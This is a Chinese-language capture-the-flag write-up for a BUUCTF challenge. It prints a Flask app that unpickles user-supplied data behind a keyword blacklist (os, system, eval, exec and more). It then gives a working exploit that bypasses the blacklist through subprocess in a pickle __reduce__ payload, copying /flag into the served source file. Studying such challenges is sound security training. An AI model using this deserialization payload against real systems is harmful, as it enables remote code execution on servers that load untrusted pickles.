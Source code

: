 ### Python Pickle 反序列化

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67ba18c2d0e0a243d4023da3.png)

提示了源码在 /src 目录，直接访问

![](https://pic1.imgdb.cn/item/67bac035d0e0a243d40275a5.png)

```python
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```

- `/ppicklee` 路由只支持 `POST` 方法。
- 从表单中获取 `data` 字段，并进行 Base64 解码。
- 通过 `sys.modules` 禁用 `os` 和 `sys` 模块。
- 检查反序列化数据中是否包含黑名单中的关键字，如果包含则返回错误信息。
- 如果数据通过检查，则尝试反序列化数据，成功返回 `success pickle`，失败返回 `fail pickle`

因为题目告诉了我们 flag 在 /flag下，且其 src 路由会读取文件 app.py 内容并输出

因为禁用了 os 和 sys 模块，所以我们使用另一个模块 **subprocess** 执行系统命令

```python
import pickle
import base64
import subprocess


# __reduce__ 方法: 这是 pickle 模块中的一个特殊方法，用于定义对象在序列化时的行为，它返回一个元组，包含一个可调用对象（通常是函数）及其参数
# subprocess.check_output: 这是一个函数，用于执行系统命令并返回输出
class A():
    def __reduce__(self):
        return subprocess.check_output, (["cp", "/flag", "/app/app.py"],)


a = A()
b = pickle.dumps(a)

print(base64.b64encode(b))
```

![](https://pic1.imgdb.cn/item/67bb328ed0e0a243d402bf17.png)

访问 src 目录拿到 flag

![](https://pic1.imgdb.cn/item/67bb3283d0e0a243d402bf07.png)
